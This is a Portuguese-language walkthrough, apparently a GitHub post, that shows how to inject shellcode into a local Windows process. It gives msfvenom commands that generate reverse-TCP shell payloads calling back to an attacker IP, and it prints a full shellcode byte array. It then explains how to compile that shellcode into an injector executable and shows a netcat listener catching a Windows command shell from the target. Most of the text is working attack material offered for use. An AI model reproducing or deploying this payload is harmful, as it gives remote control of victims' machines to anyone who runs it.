 ```yaml
---
title: Code Injection - Injection Local Process
category: post
---
```


## Windows CreateRemoteThread Shellcode Injection and Execution in Local Process

Esse é o clássico Shellcode Injection que fazemos no módulo/processo local do próprio binário compilado com os 
bytes do shellcode. 

Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme PoC a seguir:

---


### Step 1 

- Gerar os bytes do shellcode para Windows x86, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";


### Step 2

- Abrir o código fonte que já montei referente a arquitetura que geramos o shellcode acima.

		injectlocal.cpp

- Depois de copiar os bytes gerados pelo msfvenom no Step 1, devemos colar esses bytes no conteúdo da variável 
_unsigned char shellcode[] = ""_ do código fonte , e depois compilar-lo.

- Ao compilar o software com sucesso teremos os executáveis prontos para uso.

		injectlocal.exe


### Step 3


- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador que tem o IP que também colocamos como argumento no msfvenom para gerar o shellcode 

		nc -vlp 1234


- Então assim que o binário que injeta o shellcode for executado, devemos ganhar o acesso no alvo.

		listening on [any] 1234 ...
		192.168.10.109: inverse host lookup failed: Host name lookup failure
		connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
		Microsoft Windows [vers�o 6.1.7600]
		Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

		C:\Users\VBOX_7\Desktop>



